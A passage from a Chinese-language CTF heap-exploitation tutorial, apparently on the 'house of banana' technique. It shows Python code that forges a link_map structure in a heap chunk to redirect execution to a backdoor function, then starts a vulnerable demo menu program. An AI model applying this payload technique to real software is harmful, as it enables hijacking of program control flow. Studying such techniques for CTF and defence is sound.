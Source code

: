 构造payload写入chunk伪造结构体：

```python
	pd = b'\x00'*0x18
	pd+= p64(heap)
	pd = pd.ljust(0x38,b'\x00')
	pd+= p64(heap+0x58)
	pd+= p64(8)
	pd+= p64(back_door)
	pd = pd.ljust(0x100,b'\x00')
	pd+= p64(heap+0x40)
	pd = pd.ljust(0x110,b'\x00')
	pd+= p64(heap+0x48)
	pd = pd.ljust(0x30c,b'\x00')
	pd+= p64(0x9)
```

由于写入`_rtld_global._dl_ns._ns_loaded->l_next->l_next->l_next`的是包含堆块头部的堆地址，所以在构造payload的时候要把头部的0x10算进去



#### 例题

还是用上面的demo来测试

```c
//gcc -o banana banana.c

#include<stdio.h>

#include <unistd.h>

#define MAXIDX 5


void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

void menu()
{
	puts("1.add");
	puts("2.edit");
	puts("3.show");
	puts("4.delete");
	puts("5.exit");
	printf("Your choice:");
}

char *list[MAXIDX];
size_t sz[MAXIDX];

int add()
{
	int idx,size;
	printf("Idx:");
	scanf("%d",&idx);
	if(idx<0 || idx>=MAXIDX)
		exit(1);
	printf("Size:");
	scanf("%d",&size);
	if(size<0x80||size>0x500)
		exit(1);
```